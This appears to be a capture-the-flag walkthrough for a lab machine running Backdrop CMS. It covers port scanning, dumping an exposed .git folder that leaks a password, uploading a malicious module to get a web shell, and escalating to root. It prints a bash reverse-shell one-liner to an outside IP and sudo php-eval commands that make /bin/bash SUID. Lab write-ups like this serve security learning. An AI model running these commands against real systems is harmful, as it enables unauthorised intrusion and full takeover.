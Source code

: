 1. Run nmap to discover any open ports from the server. The results are port 22 and 80 are opened. <br>
![image](https://github.com/user-attachments/assets/c61f1343-5f7a-4f18-b698-7034aa7e0666)
2. There is robots.txt file in there, check and there is no interesting information related to the initial access. <br>
![image](https://github.com/user-attachments/assets/ac4e6fe5-3915-4bfe-a81c-e8bb1b2a4c6f)
3. There is a user from the blog but I can't discover any password related to this user. <br>
![image](https://github.com/user-attachments/assets/4369ed99-f7db-48be-b09f-a2b4596b4354)
4. Check again with dirsearch and there is .git folder from the server. <br>
![image](https://github.com/user-attachments/assets/d7097385-ba66-4894-88d2-83dabe0accb4)
![image](https://github.com/user-attachments/assets/8217a6ab-57c9-4cc6-b372-e9732833b5b1)
5. I dump the git content with command **git-dumper http://10.10.11.58/.git/**. <br>
6. Run git-show and found several interesting info such as: <br>
User _> tiffany@dog.htb <br>
Creds -> root:BackDropJ2024DS2024 <br>
![image](https://github.com/user-attachments/assets/7a1f58ec-e8ca-4591-8696-0300ed3559a1)
![image](https://github.com/user-attachments/assets/18e85612-85eb-4ee8-990e-d318cedb3926)
7. A bit rabbithole in here and I try to login with tiffany and the root password. With those creds, I successfully login into the website as admin. <br>
![image](https://github.com/user-attachments/assets/c2d9237b-d0a9-4dd6-a5bf-4031bcf931c2)
8. In the beginning, I discover that the server use backdrop CMS. So I try to use this exploit from this [link](https://www.exploit-db.com/exploits/52021). <br>
![image](https://github.com/user-attachments/assets/cdfe95f3-dd5f-4c20-9d30-d90d6d893171)
9. Follow the steps and change the file extension into .tar. Upload it into the /admin/modules/install page. <br>
![image](https://github.com/user-attachments/assets/2c3a9d12-7d7c-47df-a489-bf04c99da265)
10. Open the modules in /modules path and it shows the shell folder that I made. <br>
![image](https://github.com/user-attachments/assets/f57f888a-9814-4f99-abc3-6eb6758db23d)
11. Open the shell.php file and I successfully do RCE from the file. <br>
![image](https://github.com/user-attachments/assets/94da38f9-1beb-49f4-9ddb-e9143d28e764)
12. Run reverse shell command. <br>
**Command: bash -c "bash -i >& /dev/tcp/10.10.14.68/443 0>&1"** <br>
<img width="336" alt="image" src="https://github.com/user-attachments/assets/d26b5e1c-6734-453b-90fe-72725bfd4a8f" /> <br>
13. Check the home directory and found two users. I tried both with the tiffany password and one of them is worked. <br>
![image](https://github.com/user-attachments/assets/42773726-afce-4f96-8c1f-d227e49bb138)
14. The user.txt is found inside his home directory. <br> 
![image](https://github.com/user-attachments/assets/dc421e1a-b830-4aee-bdfb-3e0e935c8c39)
15. Run sudo -l and /usr/bin/bee service can be run without any root pass. <br>
![image](https://github.com/user-attachments/assets/54033313-6907-423c-a3db-b63cdebf15d2)
16. I check for the command that can be run from the service and I realize that I can run php-eval from the service. <br>
![image](https://github.com/user-attachments/assets/f0809951-2aed-4dfe-9624-82223d754e56)
![image](https://github.com/user-attachments/assets/9082faf4-c68f-4e82-b557-3c5e45bfb417)
17. Try to run whoami with this command. <br>
**Command: sudo /usr/local/bin/bee --root=/var/www/html/ php-eval "system("whoami")"** <br>
<img width="518" alt="image" src="https://github.com/user-attachments/assets/e292cce6-f607-406b-8ecd-ce97c0d65a56" /> <br>
18. It works! Now I'm able to change the /bin/bash privilege into SUID. <br>
**Command: sudo /usr/local/bin/bee --root=/var/www/html/ php-eval "system('chmod u+s /bin/bash')"** <br>
![image](https://github.com/user-attachments/assets/5c2d3c71-3f6e-47ea-9dc9-b6c3025814a9)
19. Run /bin/bash -p to access root shell and the root.txt file found inside the /root directory. <br>
![image](https://github.com/user-attachments/assets/c7c1198e-26d1-4c67-b140-c03811cc6d0a)

























